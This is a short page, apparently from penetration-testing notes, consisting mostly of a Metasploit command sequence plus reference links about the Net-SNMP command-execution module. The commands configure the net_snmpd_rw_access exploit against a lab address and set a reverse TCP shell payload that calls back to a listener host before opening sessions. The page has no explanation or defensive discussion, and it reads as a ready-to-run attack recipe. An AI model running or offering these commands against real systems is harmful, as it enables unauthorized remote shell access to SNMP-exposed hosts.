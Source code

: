 # Page 3

```
msfconsole -q
use exploit/linux/snmp/net_snmpd_rw_access
set RHOSTS 192.168.244.3
set PAYLOAD generic/shell_reverse_tcp
set LHOST 192.168.244.2
exploit
sessions
```

{% embed url="http://www.net-snmp.org/" %}

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/snmp/net_snmpd_rw_access" %}

{% embed url="https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e" %}
